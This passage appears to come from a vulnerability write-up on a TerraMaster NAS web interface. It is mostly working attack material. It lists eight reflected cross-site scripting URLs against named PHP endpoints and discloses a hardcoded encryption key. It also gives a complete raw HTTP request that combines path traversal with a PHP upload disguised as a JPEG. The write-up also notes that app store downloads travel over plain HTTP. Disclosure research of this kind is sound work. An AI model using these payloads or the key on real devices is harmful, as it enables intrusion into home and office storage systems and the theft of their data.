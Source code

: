 ```
http://nas.ip:8181/3.0/template/share/edit.php?user=%22%20onerror=alert(1)%3Ealert(1);//%3C/script%3E

http://nas.ip:8181/3.0/template/share/editor.php?user=%22%20onerror=alert(1)%3Ealert(1);//%3C/script%3E

http://nas.ip:8181/3.0/template/share/explorer.php?user=%22%20onerror=alert(1)%3Ealert(1);//%3C/script%3E

http://nas.ip:8181/3.0/template/share/file.php?user=%22%20onerror=alert(1)%3Ealert(1);//%3C/script%3E

http://nas.ip:8181/3.0/template/share/tips.php?user=%22%20onerror=alert(1)%3Ealert(1);//%3C/script%3E

http://nas.ip:8181/3.0/template/user/login-preview.php?q9=<script>alert(1)</script>

http://nas.ip:8181/module/index.php?mod=Portainer&t=aaaaaaaaaa%22;alert(1);var%20x=%22

http://nas.ip:8181/tos/index.php?share/folder&sid=a&user=a%22%3E%3C/script%3E%3Cimg%20src=x%20onerror=alert(1)%3E&path=/
```

### Misc
After the main dish, if you are interested there are a few more gotchas:

- All downloads from the store happen over HTTP, not HTTPS. A random example is: `http://dl.terra-master.com/cn/RTK7.0CJ/Tomcat_TOS_APP_1.2.1_aarch64.tpk`
- I could count at least one more hardcoded key in the application, which is found in the Mcrypt class: `a!takA:dlmcldEv,e`. Used when Mcrypt gets called without a key parameter.
- I found a couple path traversal, but I was too lazy to see if they could be properly weaponized, notes are below, enjoy:
```
POST http://nas.ip:8181/include/ajax/ajaxdata.php HTTP/1.1
Host: nas.ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: multipart/form-data; boundary=---------------------------272557087831800767091975222786
Content-Length: 515
Origin: http://nas.ip:8181
Connection: keep-alive
Referer: http://nas.ip:8181/tos/index.php?setting
Cookie: PHPSESSID=d4ccdee5a084ad3a4534ba5982ca9db1; tos_visit_time=1646086250; kod_name=admin; noshow=1
Upgrade-Insecure-Requests: 1

-----------------------------272557087831800767091975222786
Content-Disposition: form-data; name="uploaddir"

../../../../../../../../tmp
-----------------------------272557087831800767091975222786
Content-Disposition: form-data; name="sysbakfunction"

13
-----------------------------272557087831800767091975222786
Content-Disposition: form-data; name="filename"; filename="allyourbase.jpg"
Content-Type: image/jpeg

<?php phpinfo(); ?>
-----------------------------272557087831800767091975222786--
```
